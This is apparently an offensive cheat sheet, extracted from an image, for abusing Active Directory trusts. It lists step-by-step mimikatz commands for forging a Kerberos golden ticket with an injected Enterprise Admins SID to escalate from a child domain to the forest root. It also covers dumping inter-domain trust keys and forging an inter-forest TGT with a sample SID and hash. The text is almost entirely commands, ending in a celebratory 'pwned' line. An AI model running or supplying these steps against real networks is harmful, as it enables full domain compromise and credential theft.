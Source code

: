 ## Types of trusts:

### 1) Directional

### 2) Transitive

# Inter-realm TGTs

### Enterprise Admins (EA) Group default SID: S-1-5-21-ROOT_DOMAIN-519

#### 1) 

    Get-ADComputer -Identity "DC"

#### 2) 

    Get-ADGroup -Identity "Enterprise Admins" -server PARENT_DOMAIN_CONTROLLER_FQDN

#### 3) 

    mimikatz.exe

#### 4) 

    privilege::debug

#### 5) 

    kerberos::golden /user:Administrator /domain:DOMAIN /sid:DC_SID /service:krbtgt /rc4:KRBTGT_HASH /sids:ENTERPRISE_ADMIN_GROUP_SID /ptt

#### 6) PWWWWWWWWWWNEEDDD!!!!!!

OR

##### Obtain trust key between current domain and external domain

    Invoke-Mimikatz -Command '"lsadump::trust /patch"'

##### An inter-forest TGT can be forged

    Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:Security.local /sid:S-1-5-21-1874506000-3219952063-538504511 /rc4:815720462a1b48256f16740b70356b7f /service:krbtgt /target:Vault.local /ticket:C:\AD\trust_forest_tkt.kirbi"'
